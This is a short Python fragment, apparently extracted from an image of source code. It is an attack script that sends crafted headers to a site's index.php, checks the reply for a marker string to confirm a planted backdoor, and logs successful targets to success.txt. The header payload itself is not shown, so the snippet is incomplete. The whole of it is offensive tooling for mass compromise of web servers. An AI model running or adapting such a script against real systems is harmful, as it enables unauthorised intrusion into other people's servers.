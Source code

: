     def write_shell(url,headers):
        try:
            r = requests.get(url=url+'/index.php', headers=headers, verify=False,timeout=30)
            if "qing" in r.text:
                print ('[ + ] BackDoor successful: '+url+'===============[ + ]\n')
                with open('success.txt','a') as f:
                        f.write(url+'\n')
            else:
                print ('[ - ] BackDoor failed: '+url+'[ - ]\n')
        except:
            print ('[ - ] Timeout: '+url+' [ - ]\n')

    url = "http://xxx"
    write_shell(url=url,headers=headers)
